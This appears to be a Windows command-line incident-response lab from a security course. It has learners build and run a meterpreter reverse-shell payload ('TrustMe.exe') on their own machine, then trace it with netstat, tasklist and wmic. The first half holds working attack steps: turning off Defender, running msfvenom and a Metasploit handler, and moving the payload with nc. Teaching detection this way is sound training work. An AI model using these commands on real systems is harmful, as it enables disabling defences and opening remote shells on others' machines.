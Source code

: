 

# Windows CLI

In this lab we will create some malware, run it and then use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn, well...  Anything, is to actually just dig in and do it.  So, this is a great process for getting started in looking at actual malware.

Let's get started.

Let’s get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

In the default powershell Window that opens, lets ensure that Defender is off;

PS C:\Users\adhd> `Set-MpPreference -DisableRealtimeMonitoring $true`

Please note, if you get red errors that say ` A general error occurred that is not covered by a more specific error code.` that is OK!  It means Defender was disabled.  We run above command to ensure that it is off for this lab.  It has a sneaky way of truning back on again..

And now, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter. 

Please note that my adapter is called eth0 and my IP address is 172.24.86.106   

Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener: 

`sudo su -`
Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 -f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`

`nc -l -p 2222 < TrustMe.exe`

Now, let's start the Metasploit Handler.  You will have to open another Ubuntu command prompt by selecting the down carrot from the upper tabs on the Windows Terminal and selecting Ubuntu.

Let's become root first!!!
`sudo su -`

Now, let's start the Metasploit handler.

root@DESKTOP-I1T2G01:/tmp/# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST <YOUR LINUX IP>`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`


It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)

Now, let's open a Windows command prompt.  Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to copy over and run the TrustMe.exe file.

`cd \tools`

`nc <Your Linux IP> 2222 > TrustMe.exe`

Take a deep breath.  Count to 5.  Then hit Ctrl+c to kill the connection.

Then, run it.

`TrustMe.exe`

It should look like this:

![](attachments/TrustMe.png)

Back at your Ubuntu prompt, you should have a metasploit session.

![](attachments/Clipboard_2020-06-12-12-55-11.png)

Now, let's look at the malware from the other side through the Windows commandline slides!

Please, remember, your IP address will be different!!! 

Now, let's open another Command Prompt from our Terminal:

![](attachments/Clipboard_2020-12-09-13-24-45.png)

Once we are in, lets start with looking at the network connections:

First, let's create a share

`net share class=C:\Tools`

Now, let's look at that share

`net view \\127.0.0.1`

Next, let's create some sessions

`net use * \\127.0.0.1\c$`


We can see those sessions with... 

`net session`

And...

`net use`

It should all look like this:

![](attachments/netcommands.PNG)


While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view) and would tell us an attacker had mounted a share on this system (net session). 

However, we are not done with network connections yet.  Lets try looking at our malware!

`netstat -naob`

![](attachments/Clipboard_2020-12-09-13-41-32.png)

Well, that is a lot of data. This is showing us what ports are open on this system (0.0.0.0:portnumber) or (LISTENING) and what remote connections are made to other systems (ESTABLISHED).  In this example, we are really interested in the ESTABLISHED connections:

![](attachments/Clipboard_2020-12-09-13-41-54.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/Clipboard_2020-12-09-13-48-21.png)

But, we do see our last connection with the port 4444.

Let's get the Process ID (PID) so we can dig deeper:

`netstat -naob`

![](attachments/Clipboard_2020-12-09-13-49-49.png)

![](attachments/Clipboard_2020-12-09-13-50-01.png)

We can see in the above screenshot that we have the PID.

Now, let's dive in!

First we will start with tasklist  

`tasklist /m /fi "pid eq <PID>"`

Your PID WILL BE DIFFERENT!

![](attachments/Clipboard_2020-12-09-13-55-22.png)

We can see the loaded DLL's above.  As we can see, there is not a whole lot to see here:

Let's keep digging with wmic:

`wmic process where processid=<PID> get commandline`

![](attachments/wmiccommandline.PNG)

Ahh!!  Now we can see that the file was launched from the commandline!  We know this because there are no options.


Let's see if we can see what spawned the process with wmic.

`wmic process get name,parentprocessid,processid`

You can also use a find command to help search for your process ID!

![](attachments/wmicprocess.PNG)

Above we can see that we hunted the malicious process, then found its parent process ID, then did a find on that process ID.  As you can see above, it was launched by the cmd.exe process.  Also note that the search we just did may turn up some other things launched by the command line as well.










 


